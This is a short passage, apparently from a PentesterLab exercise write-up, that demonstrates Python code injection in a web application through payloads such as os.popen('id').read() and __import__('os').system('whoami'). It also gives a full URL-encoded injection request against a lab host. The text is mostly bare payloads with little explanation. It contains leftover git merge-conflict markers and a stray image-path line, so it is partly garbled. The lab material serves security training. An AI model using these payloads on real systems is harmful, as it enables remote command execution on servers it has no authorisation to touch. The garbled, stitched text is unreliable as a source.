 [Built-in Types &#8212; Python 3.11.5 documentation](https://docs.python.org/3/library/stdtypes.html#str)

```
os.system('id')
```

![image](https://github.com/r1skkam/PentesterLab-Exercises/assets/58542375/31c42bd0-a6b3-4724-a2c0-2b620a4f29ab)

```
os.popen('[CMD]').read()
```

```
os.popen('id').read()
```

```
http://ptl-011538e1-1c7c92d0.libcurl.so/hello/hacker%60%22%2bos.popen('id').read()%2b%22test%60
```

![image](https://github.com/r1skkam/PentesterLab-Exercises/assets/58542375/c3d65a95-8137-43cd-9c40-54baabf41164)

<<<<<<< HEAD
=======
```
__import__('os').system('whoami')
```

![image](https://github.com/r1skkam/OffSec-PEN-200-OSCP-Preparation/assets/58542375/f4b223ac-f645-4cef-a88f-a75a3b92399e)
>>>>>>> origin/main
